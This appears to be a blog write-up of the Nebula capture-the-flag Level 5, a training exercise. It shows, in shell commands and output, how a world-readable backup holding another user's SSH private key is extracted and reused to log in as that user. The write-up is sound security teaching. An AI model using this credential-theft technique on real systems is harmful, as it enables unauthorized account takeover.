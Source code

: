 ```yaml
---
layout: post
title:  "Exploit Excercises - Nebula: Level 5"
date:   2016-07-30 12:35:00 +0200
categories: security exercises
---
```


> Check the flag05 home directory. You are looking for weak directory permissions

* * *

While inspecting `flag05`'s home directory, we can see there's a `.backup` directory that we have access to.

~~~ bash
level05@nebula:~$ ls -al /home/flag05/
total 5
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
drwxr-xr-x 1 root   root     160 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
~~~

Inside the `.backup` directory, someone seems to have saved a tar.gz packed backup of some files. Let's see what's in it!

~~~ bash
level05@nebula:~$ ls -al /home/flag05/.backup/
total 2
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 ..
-rw-rw-r-- 1 flag05 flag05  1826 2011-11-20 20:13 backup-19072011.tgz

level05@nebula:~$ tar -ztvf /home/flag05/.backup/backup-19072011.tgz
drwxr-xr-x user/user         0 2011-07-19 02:37 .ssh/
-rw-r--r-- user/user       394 2011-07-19 02:37 .ssh/id_rsa.pub
-rw------- user/user      1675 2011-07-19 02:37 .ssh/id_rsa
-rw-r--r-- user/user       394 2011-07-19 02:37 .ssh/authorized_keys
~~~


Interesting! That's a public/private keypair. It's not a good idea to put files like that in a world readable file :). Let's go ahead and extract it to our home directory:

~~~ bash
level05@nebula:~$ tar -zxvf /home/flag05/.backup/backup-19072011.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
~~~

Knowing that the files were in `flag05`'s home directory, let's try using the keys to become `flag05`.

~~~ bash
level05@nebula:~$ ssh flag05@192.168.1.64
The authenticity of host '192.168.1.64 (192.168.1.64)' can't be established.
ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.1.64' (ECDSA) to the list of known hosts.

[ ... ]

flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
~~~
